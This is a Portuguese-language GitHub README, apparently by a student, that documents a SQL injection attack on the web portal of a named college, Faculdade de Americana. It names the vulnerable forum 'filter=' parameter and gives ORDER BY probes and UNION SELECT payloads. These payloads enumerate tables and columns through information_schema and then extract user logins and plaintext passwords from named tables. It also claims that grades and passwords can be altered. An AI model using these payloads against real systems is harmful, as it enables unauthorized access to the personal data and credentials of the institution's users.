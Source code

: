# **SQL Injection - FACULDADE DE AMERICANA**

SQL Injection é um método de invasão na qual códigos/comandos SQL são injetados no
banco de dados através de entradas de dados ou parâmetros. Minha intenção não foi de
invadir, mas sim de testar conhecimentos que adquiri na última semana e posteriormente
enviar o que descobri para a faculdade.

## **Informações úteis**

- Total de tabelas encontradas: 443;

- Total de colunas encontradas: 1883;

- Versão do SQL: 5.5.62-cll.

- Todas as páginas principais possuem vulnerabilidades, principalmente por terem um
parâmetro frame na URL que não é “sanitizado” devidamente, porém nenhuma
retornou todos as tabelas/colunas/informações do banco de dados SQL.

- A maioria (se não todos) os botões/links que possuem parâmetros para levar o usuário
para outra página possuem vulnerabilidades a SQL injection.

- A página de “esqueci minha senha” contém vulnerabilidades, porém não consegui
injetar SQL, ela só deu erro de sintaxe e o nome das tabelas que o servidor seleciona
para procurar pelo usuário. Suponho que o servidor substitui o ‘ por um \’.

- A página de fórum possui uma vulnerabilidade que me deu acesso à todas as
tabelas/dados do servidor (incluindo notas, usuários e senhas em texto plano e que
não contém nenhum tipo de criptografia/método de segurança) que podem ser
facilmente alterados.

## **Scripts** 

O portal da FAM não me deixa mudar parâmetros direto na URL, então para isso criei
uma extensão (funciona somente no Mozilla Firefox) que injeta elementos HTML e
JavaScript (cliente-side) no topo do portal.

![portal](https://drive.google.com/uc?export=view&id=1GuOkR6gYR2s0ERdJIZACez_kixlY2FYd)

A caixa de texto será utilizada para escrever o código que será injetado, o botão pegará o
texto e injetará no href (parâmetro de redirecionamento de um link) do < INJECT >
utilizando como base, o botão do fórum e seus parâmetros (será explicado no próximo
tópico).
Também utilizei um script em Python para extrair o nome das tabelas e colunas da página
HTML. O script lê todas as linhas do arquivo HTML salvo manualmente e verifica se
existe o texto “MensagensAtv” e depois verifica a seguinte expressão regular:

```
  regex_pattern = r'31 de dezembro de 1969, ([-_A-Za-z0-9]+)</td>'
```

Após todas as linhas serem lidas, o programa cria um arquivo .txt e escreve todos os
resultados encontrados pela expressão regular.

## Vulnerabilidades

Embora todas as páginas que possuem parâmetros que não serão limpos possuem uma
vulnerabilidade, a página com maior risco foi o fórum. Clicando no fórum, abrindo uma
postagem aleatória (no meu caso foi a postagem COMUNIDADE EAD com ID: 7973).
No campo de “Ordenar por”, selecione “filtrar por usuário” e clique em algum botão
escrito “responder”. Clicando no botão, um erro de sintaxe SQL aparecerá na tela.

![portal](https://drive.google.com/uc?export=view&id=1U2tHfoWovv7DRS5_klM64moD4v-kaFhk)

Se escrevermos qualquer coisa no parâmetro “filter=” do botão do fórum, o SQL
interpretará como parte do código e assim podemos injetar códigos que originalmente não
estavam no SQL da FAM.
Utilizando minha extensão, qualquer coisa que for escrita no campo de texto será injetada
no servidor SQL. Para descobrirmos todos os nomes da tabela por exemplo, primeiro
precisamos do total de colunas, para isso é preciso testar manualmente de um a um o
comando:

```
  'string'order by X-- -%
```

Onde X é um número. Caso o SQL não retorne nenhum erro, então a coluna existe e
podemos passar para o próximo número (X+1), caso contrário, a coluna não existe e o
número de colunas é X-1.
Sabendo o número de colunas, podemos assim injetar mais códigos mais graves como o
de pegar todos os nomes de tabelas existentes:

``` 
  'string' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,concat(coluna) from tabela LIMIT 1, 500;-- -%
```

O resultado desta query será várias postagens desconhecidas com a data de 31, de
dezembro de 1969 (epoch padrão de um computador) acompanhadas do nome das
tabelas.

![portal](https://drive.google.com/uc?export=view&id=1zN9PRl5DCCrDirpysKyPmXxMgEnG1rGY)

Utilizando o meu script em Python, podemos retirar o nome de todas as tabelas e criar
um arquivo com elas. O resultado será assim:

![portal](https://drive.google.com/uc?export=view&id=1rRq6IAuhdEcEBxszi-2XFzL1ZNSzNDU9)

Como sabemos o nome de todas as tabelas, agora precisamos de suas respectivas
colunas. Podemos pegá-las usando o seguinte comando:

```
 'string' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,column_name from information_schema.columns;-- -%
```

O script também consegue filtrar o nome de colunas.

![portal](https://drive.google.com/uc?export=view&id=1RdeAyAOW-CM5ounCEofAQ5oWPuMLWz_t)

Com o nome das colunas e tabelas, podemos injetar o mesmo código, porém selecionando
a coluna da tabela que queremos para conseguir qualquer informação. Podemos por
exemplo, listar todos os usuários registrados no site através de:

```
  'string' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,login_user from portal_cadastro_dados;-- -%
```

Ou todas as senhas dos usuários, que por sinal estão em texto sem nenhum tipo de
criptografia/hash ou nenhum tipo de segurança.

```
  'string' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,login_passwd from portal_login;-- -%
```

Além de conseguir acesso a dados e informações, também é possível editar, remover e
adicionar dados nas tabelas (notas, faltas, senhas, etc).

<br/>
<br/>
<br/>
<br/>

> **@M1113r** :dart: *“A tree is no more valuable than a seed. Both are simply at a different stage in their development.”* — J.R. Rim  :shipit:

  
